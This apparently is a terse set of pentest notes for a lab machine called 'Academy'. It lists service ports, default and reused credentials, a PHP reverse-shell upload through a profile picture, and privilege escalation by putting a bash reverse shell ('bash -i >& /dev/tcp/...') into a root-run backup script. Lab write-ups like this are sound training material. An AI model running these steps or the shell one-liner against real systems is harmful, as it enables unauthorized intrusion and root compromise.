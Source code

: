Debian 10

- 80 - Apache v2.4.38
	- /academy
		- Admin page creds are `admin/admin`
		- creds are `10201321/admin` -> changed from reset password.
		- php reverse shell upload in profile picture 
			- linpeas -> see ssh and myphpadmin
				- /home/grimmie/backup.sh
				- $mysql_password = "My_V3ryS3cur3_P4ss";
		
	- /phpmyadmin
		- cred are `grimmie/My_V3ryS3cur3_P4ss`

- 22 - ssh (v7.9?)
	- creds are `grimmie/My_V3ryS3cur3_P4ss`
	- /home/grimmie/backup.sh
		- edit backup with bash revshell so it executes as root
		- `bash -i >& /dev/tcp/192.168.56.1/4444 0>&1`

- 21 - ftp